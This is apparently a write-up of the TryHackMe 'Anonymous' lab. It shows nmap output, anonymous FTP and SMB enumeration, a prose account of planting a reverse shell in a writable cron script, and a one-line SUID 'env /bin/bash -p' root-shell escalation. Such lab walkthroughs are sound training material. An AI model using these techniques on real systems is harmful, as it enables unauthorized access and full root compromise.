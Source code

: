 # [Anonymous](https://tryhackme.com/room/anonymous)

First as usual, `nmap`

```
# Nmap 7.92 scan initiated Fri Sep 24 15:05:52 2021 as: nmap -vvv -p 21,22,139,445 -sCV -oA init 10.10.241.94
Nmap scan report for box.ip (10.10.241.94)
Host is up, received conn-refused (0.22s latency).
Scanned at 2021-09-24 15:05:53 +07 for 21s

PORT    STATE SERVICE     REASON  VERSION
21/tcp  open  ftp         syn-ack vsftpd 2.0.8 or later
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.17.21.200
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts [NSE: writeable]
22/tcp  open  ssh         syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 8b:ca:21:62:1c:2b:23:fa:6b:c6:1f:a8:13:fe:1c:68 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDCi47ePYjDctfwgAphABwT1jpPkKajXoLvf3bb/zvpvDvXwWKnm6nZuzL2HA1veSQa90ydSSpg8S+B8SLpkFycv7iSy2/Jmf7qY+8oQxWThH1fwBMIO5g/TTtRRta6IPoKaMCle8hnp5pSP5D4saCpSW3E5rKd8qj3oAj6S8TWgE9cBNJbMRtVu1+sKjUy/7ymikcPGAjRSSaFDroF9fmGDQtd61oU5waKqurhZpre70UfOkZGWt6954rwbXthTeEjf+4J5+gIPDLcKzVO7BxkuJgTqk4lE9ZU/5INBXGpgI5r4mZknbEPJKS47XaOvkqm9QWveoOSQgkqdhIPjnhD
|   256 95:89:a4:12:e2:e6:ab:90:5d:45:19:ff:41:5f:74:ce (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPjHnAlR7sBuoSM2X5sATLllsFrcUNpTS87qXzhMD99aGGzyOlnWmjHGNmm34cWSzOohxhoK2fv9NWwcIQ5A/ng=
|   256 e1:2a:96:a4:ea:8f:68:8f:cc:74:b8:f0:28:72:70:cd (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDHIuFL9AdcmaAIY7u+aJil1covB44FA632BSQ7sUqap
139/tcp open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn syn-ack Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 0s, deviation: 0s, median: 0s
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled but not required
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 10656/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 37572/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 56570/udp): CLEAN (Failed to receive data)
|   Check 4 (port 62665/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| nbstat: NetBIOS name: ANONYMOUS, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   ANONYMOUS<00>        Flags: <unique><active>
|   ANONYMOUS<03>        Flags: <unique><active>
|   ANONYMOUS<20>        Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
| Statistics:
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| smb2-time:
|   date: 2021-09-24T08:06:06
|_  start_date: N/A
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: anonymous
|   NetBIOS computer name: ANONYMOUS\x00
|   Domain name: \x00
|   FQDN: anonymous
|_  System time: 2021-09-24T08:06:06+00:00

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Sep 24 15:06:14 2021 -- 1 IP address (1 host up) scanned in 22.11 seconds
```

We have FTP, SSH, and SMB. We can log into FTP anonymously. We have a few files to download.

```
ftp> cd scripts
250 Directory successfully changed.

ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxrwx    2 111      113          4096 Jun 04  2020 .
drwxr-xr-x    3 65534    65534        4096 May 13  2020 ..
-rwxr-xrwx    1 1000     1000          314 Jun 04  2020 clean.sh
-rw-rw-r--    1 1000     1000         1419 Sep 24 08:12 removed_files.log
-rw-r--r--    1 1000     1000           68 May 12  2020 to_do.txt
226 Directory send OK.

ftp> mget clean.sh removed_files.log to_do.txt
```

Of those files, `removed_files.log` and `to_do.txt` don't give us anything new and helpful but `clean.sh` is a script.

```sh
#!/bin/bash

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```

We see that the script just either deletes some files or append to `removed_files.log`. Looking back at `removed_files.log`, we see that the script is being run periodically, likely as a cron job. We can also write the file in `ftp` so we create a reverse shell, upload it, and set up a listener to catch the shell. After some time, we should have a shell as "namelessone". I then added my own SSH to get a nice SSH shell.

We had SMB so we try anonymous/null authentication on it.

```sh
$ cme smb box.ip -u "" -p "" --shares
SMB         10.10.241.94    445    ANONYMOUS        [*] Windows 6.1 (name:ANONYMOUS) (domain:) (signing:False) (SMBv1:True)
SMB         10.10.241.94    445    ANONYMOUS        [+] \:
SMB         10.10.241.94    445    ANONYMOUS        [+] Enumerated shares
SMB         10.10.241.94    445    ANONYMOUS        Share           Permissions     Remark
SMB         10.10.241.94    445    ANONYMOUS        -----           -----------     ------
SMB         10.10.241.94    445    ANONYMOUS        print$                          Printer Drivers
SMB         10.10.241.94    445    ANONYMOUS        pics            READ            My SMB Share Directory for Pics
SMB         10.10.241.94    445    ANONYMOUS        IPC$                            IPC Service (anonymous server (Samba, Ubuntu))
```

We see that we have the `pics` share. We can enumerate it anonymously.

```sh
$ smbclient -U ''%'' //box.ip/pics

smb: \> ls
  .                                   D        0  Sun May 17 18:11:34 2020
  ..                                  D        0  Thu May 14 08:59:10 2020
  corgo2.jpg                          N    42663  Tue May 12 07:43:42 2020
  puppos.jpeg                         N   265188  Tue May 12 07:43:42 2020

smb: \> mget *
```

We download the 2 files in the share. I tried some stegonography on them but to no avail.

Going back to our shell. Checking our groups ...

```sh
namelessone@anonymous:~$ id
uid=1000(namelessone) gid=1000(namelessone) groups=1000(namelessone),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```

We see that we're in the `lxd` group. We can use this for privilege escalation. However, there's an easier way. Looking for SUID executables ...

```sh
namelessone@anonymous:~$ find / -perm -4000 2>/dev/null
/usr/bin/env
[snip]
```

We have `env` with SUID. Following [GTFObins](https://gtfobins.github.io/gtfobins/env/#suid), we can get a root shell simply with `env /bin/bash -p`.
